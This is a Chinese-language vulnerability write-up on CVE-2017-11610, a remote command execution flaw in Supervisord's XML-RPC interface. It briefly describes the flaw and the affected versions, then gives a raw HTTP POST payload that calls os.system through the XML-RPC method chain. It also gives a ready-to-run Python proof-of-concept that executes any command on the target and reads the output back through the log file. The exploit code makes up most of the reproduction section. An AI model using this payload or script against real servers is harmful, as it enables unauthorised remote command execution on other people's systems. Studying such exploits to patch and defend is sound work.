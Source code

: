 （CVE-2017-11610）Supervisord 远程命令执行漏洞
==============================================

一、漏洞简介
------------

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC
server是其中的一个XML-RPC服务器。
Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

二、漏洞影响
------------

supervisor
3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

三、复现过程
------------

直接执行任意命令：

    POST /RPC2 HTTP/1.1
    Host: www.0-sec.org
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213

    <?xml version="1.0"?>
    <methodCall>
    <methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
    <params>
    <param>
    <string>touch /tmp/success</string>
    </param>
    </params>
    </methodCall>

![1.png](./.resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId24.png)

### 关于直接回显的POC

\@Ricter
在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC：直接贴出来吧：

    #!/usr/bin/env python3
    import xmlrpc.client
    import sys


    target = sys.argv[1]
    command = sys.argv[2]
    with xmlrpc.client.ServerProxy(target) as proxy:
        old = getattr(proxy, 'supervisor.readLog')(0,0)

        logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
        getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
        result = getattr(proxy, 'supervisor.readLog')(0,0)

        print(result[len(old):])

使用Python3执行并获取结果：`./poc.py "http://www.0-sec.org:9001/RPC2" "command"`：![02.png](./.resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/supervisor/CVE-2017-11610/
